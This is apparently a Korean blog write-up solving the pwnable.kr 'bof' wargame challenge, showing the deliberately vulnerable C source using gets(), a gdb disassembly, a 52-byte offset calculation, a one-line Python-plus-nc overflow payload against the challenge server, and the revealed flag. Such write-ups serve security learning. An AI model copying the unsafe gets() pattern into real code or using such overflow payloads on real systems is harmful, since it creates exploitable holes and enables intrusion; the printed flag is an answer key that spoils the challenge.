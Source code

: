 ```yaml
---
title: '[Pwnable.kr] bof'
date: '2017-08-30'
---
```


![](/assets/posts/pwnkr/bof.png)

이름만 봐도 알 수 있는 buffer overflow 문제!
코드는 다음과 같다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}

int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

gets함수 부분에 주석으로 smash me!가 있는걸 보니 gets 함수의 취약점을 이용한 bof인 듯 하다.
main에서 0xdeadbeef 값을 func에 넘겨주고 함수가 실행되는데 `key = 0xdeadbeef` 이고
user로 부터 변수 overflowme를 받은 후 `key가 0xcafebabe 과 일치할 때` 쉘을 실행시킨다.
그럼 어떻게 해야될까 gdb로 한 번 봐 보자

```
mitny@argos-edu:~/pwnable$ gdb -q bof
Reading symbols from bof...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0000068a <+0>:	push   ebp
   0x0000068b <+1>:	mov    ebp,esp
   0x0000068d <+3>:	and    esp,0xfffffff0
   0x00000690 <+6>:	sub    esp,0x10
   0x00000693 <+9>:	mov    DWORD PTR [esp],0xdeadbeef
   0x0000069a <+16>:	call   0x62c < func>
   0x0000069f <+21>:	mov    eax,0x0
   0x000006a4 <+26>:	leave  
   0x000006a5 <+27>:	ret    
End of assembler dump.
(gdb) disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 < func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 < func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b < func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 < func+57>
   0x00000669 <+61>:	jmp    0x677 < func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 < func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 < func+92>
   0x00000683 <+87>:	call   0x684 < func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
```
`0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe `
이 부분에서 ebp+0x8 에 있는 값과 0xcafebabe 를 비교해서 
일치하지 않으면 func+63 으로 jump, 일치하면 func+75로 jump를 하게 되는데

[ebp-0x2c] 와 [ebp+0x8] 사이의 거리는 52!
즉, 52바이트 만큼 다른 문자를 채워넣고 0xcafebabe 를 넣어 주면 된다.

`(python -c 'print "A"*52+"\xbe\xba\xfe\xca"'; cat) |nc pwnable.kr 9000` 를 해주면
![](/assets/posts/pwnkr/bof_flag.png)

flag가 뜬다!

`daddy, I just pwned a buFFer :)`
